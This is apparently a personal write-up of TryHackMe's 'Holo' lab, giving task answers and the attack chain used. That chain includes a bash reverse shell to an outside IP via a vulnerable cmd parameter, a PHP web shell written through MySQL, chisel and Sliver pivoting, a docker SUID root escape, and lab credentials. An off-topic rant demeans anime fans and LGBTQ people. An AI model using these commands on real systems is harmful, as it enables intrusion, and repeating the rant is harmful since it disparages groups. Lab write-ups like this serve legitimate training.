

# Hololive

Name: Hololive
Date:  
Difficulty: Hard
Description:
- *Holo is an Active Directory (AD) and Web-App attack lab that aims to teach core web attack vectors and more advanced AD attack techniques. This network simulates an external penetration test on a corporate network.*
Better Description:  
- 
-  
Goals: 
- OSCP revision, demonstrate how far I have come since Throwback..
- Dante Preparation 
Learnt:
- Tie functionality of pages together
- `deepce` is linpeas for docker containers
- Chisel
- Golang compilation nitty gritty
- More Situational Awareness or may the trench that is Dunning Kroger
- Walk the the Webserver directory on at a time before/after/due second reverse shell
Beyond Root
- `chisel`, `ligolo-ng` and any, any forwarding/proxying cheatsheets done
- HTB academy: Pivoting, Tunneling, and Port Forwarding
- AV Evasion a historic set of techniques additions:
	- https://www.youtube.com/watch?v=tJGROL0PM4I&pp=ygUNYWxoNHpyM2QgaG9sbw%3D%3D

Returning to this after lots of Hack the Box I decided to follow along with [Alh4zr3d](https://www.youtube.com/watch?v=PqnnKMU3XMk) purely to fit with my work schedule that include another six hours plus after this. I need mentorship and I need practical experience that is less-head-smashing-problem-solving-stress to pace out the the marathon of learning everything for the exam I need. Some humour and Cthulhu mythos is great addition to my day. It was very enjoyable to do this this way. I learnt a lot and loads of fun.

Tasks 0 - 21 [Part 1 Alh4zr3d](https://www.youtube.com/watch?v=PqnnKMU3XMk)
Task 22 -  [Part 2 from 1:53:00 Alh4zr3d](https://www.youtube.com/watch?v=-a10dxWbp5M) - 

Part 1 - [CTHULHU CHURSDAY - Hacking into TryHackMe's "Holo" Network!](https://www.youtube.com/watch?v=-a10dxWbp5M)
Part 2 - [Customizing Empire for Antivirus Evasion, and Demonstrating Post-Exploitation on TryHackMe's Holo!](https://www.youtube.com/watch?v=tJGROL0PM4I) 
Part 3 - [THM Alh4zr3d  Owning THM Holo Network](https://www.youtube.com/watch?v=UCBcpgdKPak)
Part 4 - [THM Cthulhu Cthursday: The Malding Conclusion of TryHackMe's "Holo"!](https://www.youtube.com/watch?v=0VGRim39U9w)
## Initial Recon

The initial nmap:


Weebs, prepare the Flashgitz videos..actually [Filthy Frank WEEABOOS](https://www.youtube.com/watch?v=OFQQALduhzA&pp=ygUUd2VlYnMgYXJlIGV2ZXJ5d2hlcmU%3D) video I watched a long time ago made me realise that I could be considered a competent in the culture I was born into, and culture appreciation and mixing is very important for the growth of human. Powerful groups still want for an identity and there are some aspects of all cultures are taboo, abhorrent or social faux-par. An obsession with drawing and proliferation school girls is glorifying the reduced left frontal cortex and the domination of the not fully grown, conscious and capable (etc). Therefore glorifying decadence of the Nietzsche idea - non-thoughtful non-empathetic and non-human aspects of the self, group or human system. There is probably a real horrific historic reason it exists, but to understand that probably is derived from trauma of persons, groups it was what help is about. They need to realise and better themselves by recognition of what deterministic universe has force them now to accept, why not choose an identity not dominated by the past trauma and on the non-decadent choices of the most conscious choices to be made by the self or group.

If its just harmless school girl and there cute and you are a women, predators fetishise their prey to enjoy the pursuit - hormones and chemicals - and like a viruses or antibodies will seek to spread and propagate their world view. If you are some coloured flag person with pronouns, why not actualise the representation of who you can or want to be rather than than iconography, which you can't -  you are not 2D, stopping being insecure. 

What real-life AD network has Anime School girls?!? 

#### Task 8 Answers

What is the last octet of the IP address of the public-facing web server?
```
33
```
How many ports are open on the web server?
```
3
```
What CME is running on port 80 of the web server?
```
wordpress
```
What version of the CME is running on port 80 of the web server?
```
5.5.3
```
What is the HTTP title of the web server?
```
holo.live
```

## Web App Exploitation

#### Task 9 Answers



```bash
gobuster vhost -u http://holo.live -w /usr/share/amass/wordlists/subdomains-top1mil-110000.txt
```

What domains loads images on the first web page?
```
www.holo.live
```
What are the two other domains present on the web server? Format: Alphabetical Order
```
admin.holo.live, dev.holo.live
```

```bash
git clone https://github.com/danielmiessler/SecLists.git
```


#### Task 10


What file leaks the web server's current directory?

```
robots.txt
```

What file loads images for the development domain?

`dev.holo.live/img.php?file=images/$file.jpg`

```
img.php
```

What is the full path of the credentials file on the administrator domain?

`admin.hole.live/robots.txt`

```
/var/www/admin/supersecretdir/creds.txt
```

#### Task 11

I suggest Learning about Ansible and Packer or you could use test file inclusion 
`dev.holo.live/img.php?file=images/$file.jpg`

Downloading a Ubuntu server and going back to a ToDo list of mine in the background...


#### Task 12

What file is vulnerable to LFI on the development domain?
```
img.php
```
What parameter in the file is vulnerable to LFI?
```
file
```

What file found from the information leak returns an HTTP error code 403 on the administrator domain?

- I missed this because already tried then went back to use the lfi while I download a ubuntu server to try build some Vulnerable and Safe VMs machines with packer

```
/var/www/admin/supersecretdir/creds.txt
```

Using LFI on the development domain read the above file. What are the credentials found from the file?
```
admin:DBManagerLogin
```

Because the lfi you can then grab all the files! Be aware of the difference.


There is a non-real world vulnerablity with a use of PHP super global variable creation for view 


[Alh4zr3d](https://www.youtube.com/channel/UCz-Z-d2VPQXHGkch0-_KovA) spotted this I just LFI rather than log in


#### Task 13


What file is vulnerable to RCE on the administrator domain?
```
dashboard.php
```

What parameter is vulnerable to RCE on the administrator domain?
```
cmd
```

What user is the web server running as?
```
www-data
```

#### Task 14

N/A


#### Task 15

N/A


## Task 16 

The best method is `nc -zv 192.168.100.1 1-65535`

What is the Default Gateway for the Docker Container?
```
192.168.100.1
```
What is the high web port open in the container gateway?
```
8080
```
What is the low database port open in the container gateway?
```
3306
```

For those following along with the Video


#### Task 17

Lesson, walk up the webserver directory, this may not have got picked up.


What is the server address of the remote database?
```
192.168.100.1
```
What is the password of the remote database?  
```
!123SecureAdminDashboard321!
```
What is the username of the remote database?  
```
admin
```
What is the database name of the remote database?  
```
DashboardDB
```
What username can be found within the database itself?
```
gurag
```


#### Task 18 


What user is the database running as?
```
www-data
```

#### Task 19 

`find / -perm -u=s -type f 2>/dev/null`

[Docker should never have suid bit set.](https://gtfobins.github.io/gtfobins/docker/#shell)

What is the full path of the binary with an SUID bit set on L-SRV01?
```
/usr/bin/docker
```
What is the full first line of the exploit for the SUID bit?
```
sudo install -m =xs $(which docker) .
```


```bash
sudo install -m =xs $(which docker) .
./docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
```

#### Task 21

What non-default user can we find in the shadow file on L-SRV01?
```
linux-admin
```

## To Get Here

```bash
# login in to 
http://admin.holo.live/index.php
# admin:DBManagerLogin!
http://admin.holo.live/dashboard.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/443+<%261'

# Setup proxychains and chisel
./chisel server -p 8888 --reverse
# curl chisel run client 
curl http://10.50.103.91/chisel -o chisel
./chisel client 10.50.103.91:8888 R:socks

proxychains mysql -h 192.168.100.1 -u admin -p
# !123SecureAdminDashboard321!
use DashboardDB;
# required create RCE on docker host
# if it does not exist
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/nvmcmd.php';

proxychains curl "http://192.168.100.1:8080/nvmcmd.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/445+<%261'"

sudo install -m =xs $(which docker) .
./docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
```

[From 1:30:00 Alh4zr3d](https://www.youtube.com/watch?v=-a10dxWbp5M)

#### Task 22

The /etc/shadow has vandalised or broken so I could not crack it
```
linuxrulez
```

#### Task 23 - 28

```lua
Nmap scan report for 10.200.107.31
Host is up (0.21s latency).
Not shown: 92 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
443/tcp  open  https
445/tcp  open  microsoft-ds
3306/tcp open  mysql
3389/tcp open  ms-wbt-server
```

```
DBManagerLogin!
!123SecureAdminDashboard321!
```

reset for admin: 
```
b69a9e454439e1316427e518adcd887c38e8d0bbaebbdaf4831daf99431f698d93a3142e87eaca7ad4b315d18be7b0019d02
```

reset for gurag: 
```
09f7ab735e40f816e5913df5e157a0b271d1fd8c3665986bc782485322f06ee1fd2b5c5420594171050047280da9fcdeb80e
```

Set in the url to the `user_token=`  on requesting gurag password. Apparently very unrealistic reset password functionality. I have tried reset password testing on CTFs and there never has been one on all the machines I have done so far. Putting it on the CTFs lokup list

What user can we control for a password reset on S-SRV01?
```
gurag
```
What is the name of the cookie intercepted on S-SRV01?
```
user_token
```
What is the size of the cookie intercepted on S-SRV01?
```
110
```
What page does the reset redirect you to when successfully authenticated on S-SRV01?
```
reset.php
```

#### Task 29

Thankfully Al uses Empire for the stream so my OSCP preparation continue to press on in a fun manner. 
- https://learn.microsoft.com/en-us/dotnet/core/install/linux-debian
- https://bc-security.gitbook.io/empire-wiki/quickstart/installation
Remember to consider the use of telemetry that comes with .NET by opting out with environment variables. 

gurag : password

linux-admin linuxrulez


I wondered what was going on, I cant get execution but AV is actually removing it. As much as I have enjoyed the stream I will return to this probably in two days time after I have read everything in the next couple of sections as there is some divergence of path.

## 2024 Return to complete

Found this nice database dumping script, has to run as root
```bash
#!/bin/bash
# Run as root!
mysql -u root -f < /tmp/db.dump
```

Learn that `curl curl`, curls out the second curl, but not the output flag argument


And we can reach the Windows Web Server

Firefox configuration


Plan is to go full Sliver and `portfwd`  through to and hopeful very AV evasive sliver beacon 


```
f2dd18883b602e08e91fabbe60ac242e6e98a3065479bc14b39a48e63b302ec8f0179fda42d01272396f1e70b78e5700a9e7
```

Apparent Rock, now ASHAMED_BARBITURATE for more amazing Sliver names.. [Wikipedia - https://en.wikipedia.org/wiki/Barbiturate Truth serum is bullshit generator](https://en.wikipedia.org/wiki/Barbiturate). *The memory-impairing effects and cognitive impairments induced by sodium thiopental are thought to reduce a subject's ability to invent and remember lies. This practice is no longer considered legally admissible in court, owing to findings that subjects undergoing such interrogations may form false memories, putting the reliability of all information obtained through such methods into question.* It was a simpler time with simpler minds still apparently... Any way the truth is something you have to work for like anything else there is trying hard and smartly trying. Looking forward to the next Windows beacon name. I do not think you I can get this level of fun information through Video Games as good a Baldur Gate 3 absolutely is.. someone will probably make an amazing mod for it like a expansion like how DOS2 tried to get people to DM the Game not sure whether it worked. Old day when I am on a Ring World maybe I will get to have friends and family and play games like that together when I have time - I forgot what barbiturates were. Waiting for cronjobs and compilations and Al to get to the point I am/was at. Anyway knowing how these all situations go. Issues ahoy I know why they go the way they go.


Not persistence.. nice `bash`

Eventually, sloppiness in my secondary shell, which thankfully is run in memory by sliver... but packet economy is packet economy. And my `nohup` does not seem to work on this, but its all part of the situation today at least I learnt to read and learn from the history of this.


#### Notes from 

[Customizing Empire for Antivirus Evasion, and Demonstrating Post-Exploitation on TryHackMe's Holo!](https://www.youtube.com/watch?v=tJGROL0PM4I) 

[CTHULHU CHURSDAY - Hacking into TryHackMe's "Holo" Network!](https://www.youtube.com/watch?v=-a10dxWbp5M)

#### Back to Holo in 2024


[THM Alh4zr3d  Owning THM Holo Network: 51:11](https://www.youtube.com/watch?v=UCBcpgdKPak)

I am pretty sure that I need I need to have a pivot through LServ1 for my OneDrive -> Cmd.exe looking forward to the awesome name.  

Pivots != `Portfwd`, egress through implants; [Pivoting](https://github.com/BishopFox/sliver/wiki/Pivots) - C2 Traffic
```go
// List all an decide
beacons
// For each required hop 
use $implant
// Requires interactive session
interactive
// List pivots
pivots 
// For implant that will be the pivot listener  
use $session-id
// Open a pivot port
pivots tcp
pivots tcp --bind 0.0.0.0
// get details on a specific pivot listener; graph will display the json with more infowhether it worked. Old day when I am on a Ring World maybe I will get to have friends and famil
pivots detail | pivot graph
// Generate a Pivot Implant  that will connect to the pivot listener 
generate --tcp-pivot 10.10.10.10:6969
```

Some people get there kicks from power, but for me I exist to slowly and methodically fix and try and try and try, like drowning for dopamine. [Like the monkey](https://www.youtube.com/watch?v=FIxYCDbRGJc), except all the hurdles in my life will vanish in time crystallised into moments like this [hilarious douche](https://www.youtube.com/watch?v=Rr7bf6tIzWs).

```
pivots tcp --bind 0.0.0.0

generate --tcp-pivot --arch amd64 --os windows --save /tmp/8446-sliver.win -f shellcode -G
```


[Port-Forwarding](https://github.com/BishopFox/sliver/wiki/Port-Forwarding) - Tunneling generic TCP connections
```go
// By default all port forwards will be bound to the `127.0.0.1` interface, but you can override this using the `--bind` flag
// Local port forward
portfwd add --remote 10.10.10.10:22
// Reverse Port forward
rportfwd add --remote 10.10.10.10:22
// `wg-portfwd` WireGuard Port Foward requires WireGuard 
```

Unfortunately my attention is required else where for an emergency.

Watch and read the evasion related 
https://www.youtube.com/watch?v=tJGROL0PM4I 


https://www.youtube.com/watch?v=UCBcpgdKPak


BROWSE_THESENUTS,


Reminder that Alh4zr3d will mald into the oblivion to stop at a point where he is trying the NTMLrelay [THM Alh4zr3d  Owning THM Holo Network](https://www.youtube.com/watch?v=UCBcpgdKPak) to then move to [THM Cthulhu Cthursday: The Malding Conclusion of TryHackMe's "Holo"!](https://www.youtube.com/watch?v=0VGRim39U9w)


## Beyond Root